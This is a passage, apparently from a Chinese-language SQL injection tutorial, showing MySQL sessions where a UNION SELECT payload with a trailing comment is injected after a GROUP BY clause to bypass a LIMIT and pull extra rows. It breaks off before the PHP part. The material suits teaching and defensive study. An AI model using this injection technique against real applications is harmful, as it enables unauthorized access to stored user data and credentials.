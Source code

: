 但但是，group by用于分类查询，limit语句只能放在后面位置，可以通过注释符注释掉它。

例如，我们需要查询前3个用户名为admin开头的

```sql
mysql&gt; select * from users where username like &#39;admin%&#39; group by id limit 3;
&#43;----&#43;----------&#43;----------&#43;
| id | username | password |
&#43;----&#43;----------&#43;----------&#43;
|  8 | admin    | admin    |
|  9 | admin1   | admin1   |
| 10 | admin2   | admin2   |
&#43;----&#43;----------&#43;----------&#43;
3 rows in set (0.01 sec)

mysql&gt; select * from users where username like &#39;admin%&#39; group by id union select 1,2,3; -- limit 3;
&#43;----&#43;----------&#43;----------&#43;
| id | username | password |
&#43;----&#43;----------&#43;----------&#43;
|  8 | admin    | admin    |
|  9 | admin1   | admin1   |
| 10 | admin2   | admin2   |
| 11 | admin3   | admin3   |
| 14 | admin4   | admin4   |
|  1 | 2        | 3        |
&#43;----&#43;----------&#43;----------&#43;
6 rows in set (0.01 sec)
```

![图片](/resource/SQL注入之GroupBy位置点注入.assets/640-20230814161739913.png)

修改PHP SQL查询语句：
